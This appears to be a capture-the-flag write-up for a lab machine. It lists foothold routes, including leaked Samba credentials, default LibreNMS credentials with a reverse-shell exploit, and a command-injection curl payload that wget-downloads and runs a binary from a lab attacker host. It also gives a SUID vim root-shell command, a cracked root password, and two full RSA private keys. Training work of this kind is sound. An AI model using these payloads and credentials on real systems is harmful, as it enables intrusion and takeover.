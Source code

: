 # Tyler KOTH machine

Paths to foothold:

- under a samba share is a text file `alert.txt` with a password in it. these are the ssh'able creds of the narrator user: `narrator:X8JEETQmf3hkS65f`
- On port 8080 is an instance of LibreNMS, with the default credentials admin:admin. This can be exploited to get a reverse shell with https://www.exploit-db.com/exploits/47044
- On port 80 is a standard website, that has two subdirectories: upload and betatest
  - upload can have its code examined by viewing index.bak - it appears to be mildly restricted, with a randomised output
  - betatest is straight command execution, for any post with the following body: `submit=submit&user=;id`, the latter param being command injection into a system call.

  ```
  curl http://10.10.155.41/betatest/checkuser.php -d "submit=submit&user=;wget+10.10.53.33:1234/client+-O+/tmp/c+%26%26+chmod+777+/tmp/c+%26%26+/tmp/c"
  ```

Paths to root:

- vim has the suid bit set. `/usr/bin/vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'` will prompt for the terminal, entering `xterm`, then give a root shell.
- there is a shadow.bak file under /var/backups
  - cracking this with -m 1800 reveals the root password: `iamgod$08`

## Flags

- /root/root.txt
- /home/narrator/user.txt
- /home/tdurden/user.txt
- /srv/public/flag.txt
- /centos_chroot/root/flag.txt

## Keys

TDurden's id_rsa:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvtKk2o/D5bl3eKcmDTBjy2z9mU8IeCPIVQjZ5M2i+6F122aJ
VbXoTgmsMvgzoJ3HCBB1KjIBLzhBLPtrv/lKVsS+7dUEp8i7zKzCgJy1wUA869ri
cey44ZYvML+5yF/NxHKc1OzNm1YhhqV4cTgEGulHe6UVV3pIe9amSNtiO2YPzTz0
s7DG5tAkKyfUPidpLoLvxCuFULEdQjjLPu7LHdIJB0PD6KCx69fseE63/g0W/x9N
oY5dU2mefPQosZUEDVHx8y41557hO6rJXF/HOjnu7L+3vNPDPO2aJHYa4n1ma38A
sWmeeA+sVmHUknGMzCqi4dB0MTtyqJInEYEycQIDAQABAoIBACrKQX1hT6Rr+oZr
tPSwLTCouBVwy41lOL8YxQOxuSKEClGwpIs7x2P4d0zWq30Q5FjCmANmQy27h6H2
nyrlU+4xID9kzS5yrOows0zz1y4GoaKh6rVxR+QOMXbVB2wPT60FpnV4xIJYxhvT
bza0QPdn6EeptSdwnGBoudEMoPKAhVCvPx//oGK7FNH/OYp7iLIrgIi5cb0xCKUC
X/ZuifgBoYKim1hnLRnLVJPIn6ZZ3ZUYgaEo2TnMe5adtyEbPq1E/HwuHM4JAINu
QHoWEWPaLUKaekdV18sbiF6i1Bpc+V8CbesYZBXvvDs8uI6RIzXUSXD5ul7MZ4oK
89RxwgECgYEA40O7hIpZdUiuavnUr9LWknxK8xhQzqoffi8nVibJGmS7u/qDGBWO
ceC0iGpFxnAzpFYDAtL92LOD2sb83bLCHwhWVCctlE568D5P2XE84S7IWbRHLoEs
bBLaaHHI90XAGrhRvTFKMQHEl9tRykpnq6Ip9HqgB5KDHXGed45J9UkCgYEA1vNW
hPBdlU3w0RLf1PSiTrkdCzrwsGdAjYyswStnmXnBi4wNxWnzoo1uHWp6UiWVX3KD
/xtOsx+6eEOrhYvP+MyeWwY1bj4J6CIHHXuJRBPh4sJwgfRwlo43FnxFaMhW8S/5
nZGSaXMpLacVRQh2RNKiWU2hqe2eKZ9tPhYAW+kCgYBCLLfOaSaRUx+OgL6gj8jx
EIYWcO8erkTLTlmq6VJHgCt2GgTQH37BxAdtbVxx4rv2zyDDUsKdte/f5W898s45
kQjqKhpIg+2iRNKlYyax/xhRnn/Xl79inL7CCNfWwJWmciNC7rZGvNgMy8zuFWpI
fMiwqoAslEnfafUVpPX+GQKBgQDKugIVq2V31WSUq0pz3K3ftXMRDmvG0/rsBYtB
PKCe/VhvNo4ebIkd/GmoUK5BH7U7qhOX3Ldi9T+3AYuZjn19V+7aRobKDLTnPICd
a8/QZzgZ1+yohFRTipmmGVqVMq3dF7RCyfLehYCG0BidXRe+XTJFK5SXYcZT10r+
zV1VUQKBgDupvxWOhqf0md/nJ+oAC6WZWcFVp8HVYH2JVk3r+dTyTBu5AKcMVR/p
eu81pmX0Mb9/r715wKd7eDpymWjXiuo88EONbUlRErjdJQ0WuJkw9t//znCRmPBH
FLWlF0hgshMSf7zonVIdhrp23YiFK3ALxoxqGXRJOtfKQi3FDLwM
-----END RSA PRIVATE KEY-----
```

Narrator's id_rsa:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA1K2sm2qTl2aSKcmkCrUWXS9e090v6UvxF/W9Cpm/0ycPcmij
zvLltqIyM3j4ZtmFfpAUQ+Xg7YvE3SRRBZVw2G+x+QbIM6JgzkC5o5uD02FJGvOT
ouCiDb9QOtRCMNQ6r6H7QXNufX+yJ4L3bTi7UnhBtSn5oCjhfUhBkHxfYQt672gm
z4vjn2Ndtlov0poX5eaNeyyMLiohzDQv2I5dK+OvV+H50ZLD3esnRS7PsPG4k3lf
kB4lQp7NKrMF/Ye6c3CY9gGL8pAeDMTDYpBNDfLcBgz/cSLZUg4SYc6F0y/EKybT
1F3z6qK3spAuurOVQvSDqw4+1ZSPQSP23WtXyQIDAQABAoIBABh2SW4u2f8GCzXH
PZkFrybUtgGEZWheFcL9vtqjSI8O5RXxtzWsdoOFMGT/OwMJbfNauxn8LNzlwKT2
8mLEB5C9eCj+gLR/rsbKZw/MaWM8w13YOlj3oWwXXzEFDP/0yTM+XFnw3vqMX39v
7umfJtybfGNMCqxDR3xTfUcTJx1QMN8GjeFgNAAWYM7i7E83QfWfwWo/rcaNx1KN
FjJSmn0Qd7lcTLdgA2oHPAe6BvEq2P3EDY1ecWEvsMIbmM/cZsJLSdi/9HlqkRF8
xsrlB9Cz019o3mMog8356ibM2TOPik+cWumzLqu09ddza4VEfxT30xsXYnaYKDxu
wBPxaUkCgYEA/RQBzDU/Fy3nq1UYCTJMtni9Z6rOLzm3X1uAKNJmKq5mMEERnx6m
MA4YYun3yvkQbG4Mq2Mptm1uw3Yph8wQmKIszNrfNc97CVb0h20S6XSxOD3SXN49
Xut4GiKPMjS9gh/k/56l2j+yy366hOdkiNDj+C0oMBN9k+M5r+++g4sCgYEA1yJD
NQtAl/9K5ePh7pXbXd1PfRggJS69rqnhTm5BTQ8mzO8ldWdNNE+zC5MLl92m8lTv
V4yFoDmb1TU8+x8EY9CEHXnTKkfLB2VDN7Dk4P4iMGhh1U+fWXEOMDDhurYgR6R3
vdyInB3f6IVMfqvYYEe31eddnc3AWjwOZP6a7HsCgYBVwy7sxeqQb1T/4cFYdHw8
peQBuodOx69VmEtxCgPnWNx2Y8aV9qv4wv4Onx0C4q5nIFAY0Gz1TlZn1KY0R7ok
D2lBLrbPpHUccCRDtHnhNVNNLN4Z7JI9lWxI5wdBy0+hRi+zVE7+C/IKNfL9UPDn
0GpA0wS4bhJzSGBnN8aHCwKBgQCObvLMJb0IZU+zUOL+0VzBkorUKaruszmGcJbp
FHpLiKKJwDOuvUwSPEoweZSNYYTsoGsuLa0y3bFcwbi0El8XrrApy8SRE6NKLDMK
piWDCP6dyh4r2mGIGB/qrBJnSbmpdSyKGX6gze62xbpVi3TgmdsO1fXXSqf1lhl5
qE/uDQKBgQDgn76GuDlT7Itk8LEN+hn4Yup97oXpjMHSPrkZC8iRpxOuPYP0EEC1
t1Ywik0g6ceHw8v0cl5XPj7tRs2U6xy/4iQ2/fERjPCZmBZeO3dz0OCZamsEIWtb
tMshFFP1ppXtnVqtYWLYNa9rL3HZlzb8EsVxwpZqnKE9vO+SiuHdTg==
-----END RSA PRIVATE KEY-----
```
